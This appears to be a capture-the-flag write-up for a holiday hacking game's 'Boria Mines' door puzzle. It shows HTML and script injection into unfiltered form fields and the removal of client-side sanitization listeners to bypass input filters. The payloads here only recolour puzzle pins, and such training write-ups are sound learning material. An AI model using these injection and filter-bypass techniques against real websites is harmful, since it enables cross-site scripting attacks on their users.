 Open the door to the Boria Mines. Help Alabaster Snowball in the Web Ring to get some hints for this challenge.

Difficulty: 3/5

## Chat with Hal Tandybuck
Oh hi, I'm Hal Tandybuck. And who might you be?

I'm hanging out by the door to the mines here because, well, I haven't figured out the locks yet.

It actually reminds me of this locked crate I had three years ago...

I doubt we'll get much in the way of debug output.

Think you can help me get through?

## Terminal
First we read source code to figure out how the locks work so that we can open the door.

Each pin is coded as a form within an iframe. When we click the go button, that will submit the form by generating a post request to the server.

The idea is to connect the color sensors so that there is a continuous colour path from the input sensor to the output sensor.

```
<div class="iframes">
            <iframe src="/pin1" class="pin1 completed"></iframe>
            <iframe src="/pin2" class="pin2"></iframe>
            <iframe src="/pin3" class="pin3"></iframe>
            <iframe src="/pin6" class="pin6"></iframe>
            <iframe src="/pin5" class="pin5"></iframe>
            <iframe src="/pin4" class="pin4"></iframe>
        <img class="wiring" src="wiring.png">
            <canvas class="effects" width="744" height="422"></canvas>
            <button class="helpBtn">?</button>
        </div>
```
pin1:

![](../images/web_ring/pin1_before.png)
Looking at the source code for pin 1 we see the answer within a comment.
```
<form method="post" action="pin1">
        <!-- @&@&&W&&W&&&& -->
        <input class="inputTxt" name="inputTxt" type="text" value="" autocomplete="off">
        <button>GO</button>
    </form>
```

`@&@&&W&&W&&&&`

![](../images/web_ring/pin1_after.gif)

pin2:
![](../images/web_ring/pin2_before.png)

Looking at the comment in the form we get a clue that the input may not filter out HTML.

```
<form method="post" action="pin2">
        <!-- TODO: FILTER OUT HTML FROM USER INPUT -->
        <input class="inputTxt" name="inputTxt" type="text" value="" autocomplete="off">
        <button>GO</button>
    </form>
```

As both the input and output sensors are white let's attempt to fill the pin with white color.

`<style>body {background-color: white;}</style>`

![](../images/web_ring/pin2_after.gif)

pin3:
![](../images/web_ring/pin3_before.png)

Looking at the comment in the form we get a clue that the input may not filter out javascript.
```
<form method="post" action="pin3">
        <!-- TODO: FILTER OUT JAVASCRIPT FROM USER INPUT -->
        <input class="inputTxt" name="inputTxt" type="text" value="" autocomplete="off">
        <button>GO</button>
    </form>
```

As both the input and output sensors are blue let's attempt to fill the pin with blue color using JS.

`<script>document.querySelector("body").style.cssText = "background-color:blue"</script>`

![](../images/web_ring/pin3_after.gif)

pin4:
![](../images/web_ring/pin4_before.png)
```
<form method="post" action="pin4">
        <input class="inputTxt" name="inputTxt" type="text" value="" autocomplete="off" onblur="sanitizeInput()">
        <button>GO</button>
    </form>
```
```
const sanitizeInput = () => {
            const input = document.querySelector('.inputTxt');
            const content = input.value;
            input.value = content
                .replace(/"/, '')
                .replace(/'/, '')
                .replace(/</, '')
                .replace(/>/, '');
        }
```

As the sanitization happens on the client side, it can be easily disabled from the browser itself from the Event Listeners tab:

![](../images/web_ring/remove_blur.png)

Remove blur event listener on input element and submit the following HTML. As HTML sanitization doesn't happen at the server end either, the code is executed as is.

```
<div style="height:100px;width:200px;background-color:white"></div>
<div style="height:100px;width:200px;background-color:blue"></div>
```

![](../images/web_ring/pin4_after.gif)

pin5:
![](../images/web_ring/pin5_before.png)

Similar to pin4, remove the event listener on blur and submit the following JS. As JS sanitization doesn't happen at the server end either, the code is executed as is.
```
<script>
bod = document.querySelector("body");
bod.style.cssText = "background-color:red";
new_div = document.createElement("div");
new_div.style.cssText = "height: 120px;width: 200px;background-color:blue;margin-left: 20px;margin-top: 100px;";
bod.append(new_div);
</script>
```

![](../images/web_ring/pin5_after.gif)

pin6:
![](../images/web_ring/pin6_before.png)
After a lot of fiddling around with the filter on this one I realised that some HTML and JS input validation was present but the img HTML element did not seem to be filtered. In particular image [data urls](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/Data_URLs) were allowed!
In fact, most of the pins did not filter the img element with data URL as source:

![cats](../images/web_ring/cats.png)



To solve pin6 we need green, red and blue colored images which I picked up from wikimedia commons.

> Red
```
<img src="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAOEAAADhCAMAAAAJbSJIAAAAA1BMVEX/AAAZ4gk3AAAASElEQVR4nO3BgQAAAADDoPlTX+AIVQEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADwDcaiAAFXD1ujAAAAAElFTkSuQmCC">
```

> Blue
```
<img src="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAOEAAADhCAMAAAAJbSJIAAAAA1BMVEUAAP+KeNJXAAAASElEQVR4nO3BgQAAAADDoPlTX+AIVQEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADwDcaiAAFXD1ujAAAAAElFTkSuQmCC">

```


>Green
```
<img src="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAOEAAADhCAMAAAAJbSJIAAAAA1BMVEUA/wA0XsCoAAAASElEQVR4nO3BgQAAAADDoPlTX+AIVQEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADwDcaiAAFXD1ujAAAAAElFTkSuQmCC">
```

> Putting it all together
```
<img width="200" height="60" src="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAOEAAADhCAMAAAAJbSJIAAAAA1BMVEUA/wA0XsCoAAAASElEQVR4nO3BgQAAAADDoPlTX+AIVQEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADwDcaiAAFXD1ujAAAAAElFTkSuQmCC">
<img width="200" height="40" src="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAOEAAADhCAMAAAAJbSJIAAAAA1BMVEX/AAAZ4gk3AAAASElEQVR4nO3BgQAAAADDoPlTX+AIVQEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADwDcaiAAFXD1ujAAAAAElFTkSuQmCC">
<img width="200" height="60" src="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAOEAAADhCAMAAAAJbSJIAAAAA1BMVEUAAP+KeNJXAAAASElEQVR4nO3BgQAAAADDoPlTX+AIVQEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADwDcaiAAFXD1ujAAAAAElFTkSuQmCC">

```

![](../images/web_ring/pin6_after.gif)

## Rejoice

![](../images/web_ring/pins_solved.gif)

Wha - what?? You opened all the locks?! Well then...

Did you see the nearby terminal with evidence of an XXE attack?

Maybe take a close look at that kind of thing.
